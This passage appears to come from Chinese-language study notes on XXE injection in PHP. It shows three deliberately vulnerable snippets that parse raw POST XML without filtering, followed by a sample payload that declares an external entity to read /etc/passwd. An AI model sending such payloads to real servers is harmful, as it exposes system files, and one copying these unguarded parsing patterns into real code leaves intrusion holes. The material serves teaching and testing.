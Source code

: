    ```php
   <?php
   $data = file_get_contents('php://input');  //收post的数据
   $dom = new DOMDocument();//新建一个xml文档(的根)
   $dom->loadXML($data);	
   //缺少对用户提供数据$data的过滤
   print_r($dom);
   ```
   
   ![1563106880416](IMG/1563106880416.png)
   
     - SimpleXMLElement.php
   
   ```php+HTML
   <?php
   //SimpleXML 是 PHP 5 中的新特性, 提供了一种获取 XML 元素的名称和文本的简单方式, 无需安装就可以使用
   $data = file_get_contents('php://input');
   $xml = new SimpleXMLElement($data);
   echo $xml->name; 
   ```
   
   ![1563106816628](IMG/1563106816628.png)

     - simplexml_load_string.php

```php+HTML
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
//simplexml_load_string() 把 XML 字符串载入对象中, 允许失败, 返回false

echo $xml->name;
```

**Simple XXE Payload：**

主要是要明白创建xml实体的方式(语法),  DTD类型是什么?  payload里哪些能改, 哪些不能改, 有哪些变数, 可以从外部加载吗, 协议不是php伪协议怎么办等等问题

一个简单的payload如下, post提交即可

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE abc [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<xyz>
	<name>&xxe;</name>
</xyz>
```
